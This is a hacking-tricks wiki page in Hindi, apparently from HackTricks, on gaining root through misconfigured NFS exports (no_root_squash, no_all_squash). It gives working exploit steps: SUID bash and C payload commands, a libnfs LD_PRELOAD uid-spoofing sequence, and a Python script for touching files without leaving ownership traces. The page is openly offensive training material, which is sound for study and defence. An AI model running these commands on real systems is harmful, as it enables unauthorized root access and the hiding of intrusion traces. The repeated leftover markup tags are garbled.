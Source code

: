 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


_ **/etc/exports** _ फ़ाइल को पढ़ें, यदि आप कुछ निर्देशिका पाते हैं जो **no\_root\_squash** के रूप में कॉन्फ़िगर की गई है, तो आप **एक क्लाइंट के रूप में** इसे **एक्सेस** कर सकते हैं और उस निर्देशिका के अंदर **लिख सकते हैं** जैसे कि आप मशीन के स्थानीय **रूट** थे।

**no\_root\_squash**: यह विकल्प मूल रूप से क्लाइंट पर रूट उपयोगकर्ता को NFS सर्वर पर रूट के रूप में फ़ाइलों तक पहुँचने का अधिकार देता है। और इससे गंभीर सुरक्षा परिणाम हो सकते हैं।

**no\_all\_squash:** यह **no\_root\_squash** विकल्प के समान है लेकिन **गैर-रूट उपयोगकर्ताओं** पर लागू होता है। कल्पना करें, आपके पास कोई उपयोगकर्ता के रूप में एक शेल है; /etc/exports फ़ाइल की जांच की; no\_all\_squash विकल्प मौजूद है; /etc/passwd फ़ाइल की जांच करें; एक गैर-रूट उपयोगकर्ता का अनुकरण करें; उस उपयोगकर्ता के रूप में एक suid फ़ाइल बनाएं (nfs का उपयोग करके माउंट करके)। कोई उपयोगकर्ता के रूप में suid को निष्पादित करें और विभिन्न उपयोगकर्ता बनें।

# Privilege Escalation

## Remote Exploit

यदि आपने इस भेद्यता को पाया है, तो आप इसका शोषण कर सकते हैं:

* **क्लाइंट मशीन में उस निर्देशिका को माउंट करना**, और **रूट के रूप में** माउंट किए गए फ़ोल्डर के अंदर **/bin/bash** बाइनरी की **कॉपी करना** और उसे **SUID** अधिकार देना, और **शिकार** मशीन से उस बाश बाइनरी को **निष्पादित करना**।
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **उस निर्देशिका को** एक क्लाइंट मशीन में माउंट करना, और **रूट के रूप में** माउंट की गई फ़ोल्डर के अंदर हमारे कंपाइल किए गए पेलोड को कॉपी करना जो SUID अनुमति का दुरुपयोग करेगा, इसे **SUID** अधिकार देना, और **शिकार** मशीन से उस बाइनरी को **निष्पादित करना** (आप यहाँ कुछ [C SUID पेलोड्स](payloads-to-execute.md#c) पा सकते हैं)।
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
ध्यान दें कि यदि आप अपनी मशीन से पीड़ित मशीन तक एक **टनल बना सकते हैं, तो आप इस विशेषाधिकार वृद्धि का शोषण करने के लिए दूरस्थ संस्करण का उपयोग कर सकते हैं, आवश्यक पोर्ट्स को टनल करते हुए**।\
यह ट्रिक तब है जब फ़ाइल `/etc/exports` **एक IP को इंगित करती है**। इस मामले में आप **किसी भी स्थिति में** **दूरस्थ शोषण** का उपयोग नहीं कर पाएंगे और आपको **इस ट्रिक का दुरुपयोग करना होगा**।\
शोषण के काम करने के लिए एक और आवश्यक आवश्यकता यह है कि **`/etc/export` के अंदर निर्यात** **`insecure` ध्वज का उपयोग कर रहा हो**।\
\--_मुझे यकीन नहीं है कि यदि `/etc/export` एक IP पते को इंगित कर रहा है तो यह ट्रिक काम करेगी_--
{% endhint %}

## Basic Information

परिदृश्य में एक स्थानीय मशीन पर एक माउंटेड NFS शेयर का शोषण करना शामिल है, NFSv3 विनिर्देशन में एक दोष का लाभ उठाते हुए जो क्लाइंट को अपने uid/gid को निर्दिष्ट करने की अनुमति देता है, संभावित रूप से अनधिकृत पहुंच सक्षम करता है। शोषण में [libnfs](https://github.com/sahlberg/libnfs) का उपयोग शामिल है, जो NFS RPC कॉल के निर्माण की अनुमति देने वाली एक लाइब्रेरी है।

### Compiling the Library

लाइब्रेरी संकलन चरणों में कर्नेल संस्करण के आधार पर समायोजन की आवश्यकता हो सकती है। इस विशेष मामले में, fallocate syscalls को टिप्पणी की गई थी। संकलन प्रक्रिया में निम्नलिखित कमांड शामिल हैं:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### शोषण करना

शोषण में एक सरल C प्रोग्राम (`pwn.c`) बनाना शामिल है जो रूट तक विशेषाधिकार बढ़ाता है और फिर एक शेल निष्पादित करता है। प्रोग्राम को संकलित किया जाता है, और परिणामी बाइनरी (`a.out`) को suid रूट के साथ शेयर पर रखा जाता है, RPC कॉल में uid को फेक करने के लिए `ld_nfs.so` का उपयोग किया जाता है:

1. **शोषण कोड संकलित करें:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **शोषण को शेयर पर रखें और uid को फेक करके इसकी अनुमतियों को संशोधित करें:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **रूट विशेषाधिकार प्राप्त करने के लिए शोषण निष्पादित करें:**
```bash
/mnt/share/a.out
#root
```

## बोनस: NFShell के लिए छिपा हुआ फ़ाइल एक्सेस
एक बार रूट एक्सेस प्राप्त होने के बाद, स्वामित्व को बदले बिना NFS शेयर के साथ इंटरैक्ट करने के लिए (निशान छोड़ने से बचने के लिए), एक Python स्क्रिप्ट (nfsh.py) का उपयोग किया जाता है। यह स्क्रिप्ट uid को उस फ़ाइल के uid से मेल खाने के लिए समायोजित करती है जिसे एक्सेस किया जा रहा है, जिससे शेयर पर फ़ाइलों के साथ इंटरैक्शन की अनुमति मिलती है बिना अनुमति की समस्याओं के:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
जैसे चलाएँ:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
